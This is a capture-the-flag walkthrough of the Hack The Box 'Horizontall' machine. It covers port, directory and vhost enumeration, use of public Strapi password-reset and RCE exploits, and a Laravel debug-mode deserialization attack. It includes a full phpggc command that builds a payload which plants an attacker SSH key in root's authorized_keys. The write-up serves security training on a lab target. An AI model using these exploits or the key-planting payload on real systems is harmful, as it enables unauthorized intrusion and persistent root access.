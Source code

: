 ```yaml
---
title: "[HTB] Machine: Horizontall"
description: "[HTB] Machine: Horizontall"
date: 2023-08-08
menu:
  sidebar:
    name: "[HTB] Machine: Horizontall"
    identifier: htb-machine-Horizontall
    parent: htb-machines-linux
    weight: 10
hero: images/horizontall.png
tags: ["HTB", "vhosts", "strapi", "cve-2019-18818", "cve-2019-19609", "command-injection", "laravel", "phpggc", "deserialization"]
---
```


# Horizontall
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.11.105 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-15 17:34 BST
Nmap scan report for 10.10.11.105 (10.10.11.105)
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.09 seconds
```
- Web Server

![](./images/1.png)

- `gobuster`
```
└─$ gobuster dir -u http://horizontall.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt      
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://horizontall.htb/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
2023/08/15 17:54:27 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 194] [--> http://horizontall.htb/img/]
/css                  (Status: 301) [Size: 194] [--> http://horizontall.htb/css/]
/js                   (Status: 301) [Size: 194] [--> http://horizontall.htb/js/]

```
- `ffuf`
```
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u 'http://10.10.11.105/' -H 'Host: FUZZ.horizontall.htb' -fw 7 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.105/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.horizontall.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response words: 7
________________________________________________

[Status: 200, Size: 901, Words: 43, Lines: 2, Duration: 109ms]
    * FUZZ: www

```

- We find another `vhost` in `js` file

![](./images/2.png)

## Foothold/User
- `http://api-prod.horizontall.htb/reviews`

![](./images/3.png)

- Let's `gobuster` again
```
└─$ gobuster dir -u http://api-prod.horizontall.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50    
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://api-prod.horizontall.htb/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/08/15 17:59:30 Starting gobuster in directory enumeration mode
===============================================================
/reviews              (Status: 200) [Size: 507]
/users                (Status: 403) [Size: 60]
/admin                (Status: 200) [Size: 854]
```
- `http://api-prod.horizontall.htb/admin`
  - We have [strapi](https://strapi.io/)

![](./images/4.png)

- Let's check exploits
  - Googling shows [exploit](https://www.exploit-db.com/exploits/50237) to reset `admin` password
    - `http://api-prod.horizontall.htb/admin/strapiVersion`
    - We have `strapiVersion	"3.0.0-beta.17.4"`
  - Another [exploit](https://www.exploit-db.com/exploits/50238) with `RCE`
  - Let's try them

![](./images/5.png)

![](./images/6.png)

- Now let's try `RCE`
  - There's a nice [blog](https://bittherapy.net/post/strapi-framework-remote-code-execution/) with `POC` 
  - We can open the same request in `Burp`
  - Add `Content-Type` and `Authorization` headers
  - Copy the payload from the post and send it

![](./images/7.png)
![](./images/8.png)

## Root
- Let's enumerate
  - We have port `8000`

```
strapi@horizontall:~$ netstat -tulpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1802/node /usr/bin/ 
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -   
```

- We can either upload `chisel` or use `ssh` port forwarding, 
  - If we use `ssh` version, we don't have `.ssh` folder and `authorized_keys` for `strapi`
  - Let's try and create them
  - Let's add public key to `authorized_keys` so we can `ssh`

![](./images/9.png)
![](./images/10.png)

- We have `Laravel`

![](./images/11.png)

- Let's `gobuster`
```
└─$ gobuster dir -u http://localhost:8000/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,txt --no-error
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://localhost:8000/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/08/15 18:52:07 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 17473]
/server.php           (Status: 200) [Size: 17473]
/profiles             (Status: 500) [Size: 616200]
```

- `/profiles`
  - Looks like debug mode is on Laravel

![](./images/12.png)

- If we google for `laravel debug mode exploit`
  - We have a [post](https://www.ambionics.io/blog/laravel-debug-rce)
  - And [poc](https://github.com/ambionics/laravel-exploits/blob/main/laravel-ignition-rce.py)
  - Let's try
  - Generate payload
    - `php -d'phar.readonly=0' ~/Documents/Tools/phpggc/phpggc --phar phar -o ssh.phar --fast-destruct monolog/rce1 system 'mkdir -p /root/.ssh; echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDo+qtyTekC0IbR253hJRsWT9Q+wCFVUEwHS7/VZJEOvePL+oIm2LZp9G1ml3FToU6Qr2MtB83tJU7mMFqcKm3mfVTj+lpJzP+XO4A/xHzLiqhZScv56FM0JaZqz65/Oca4FF4AiNS0gOwJ7vu5sARMYFbb5jsd266eCFvymRLobt3Ujzo5lqcRiLOgZPVCasfHU0vPCNGTaMvDKyklhwSCsMbKjOxuozbwZwJ1ApsCkkx7bx277DGgOI6G/rLYFkc/W/+Y9hxqp4RifUzgu6GACKDIKyAnszWxZHNMT/Iokkcn35Xd5p/ykVgrjLBDQKCxTr4Org/M7L9xhvd19GbH kali@kali" >> /root/.ssh/authorized_keys'`
  - And run exploit

![](./images/13.png)

![](./images/14.png)
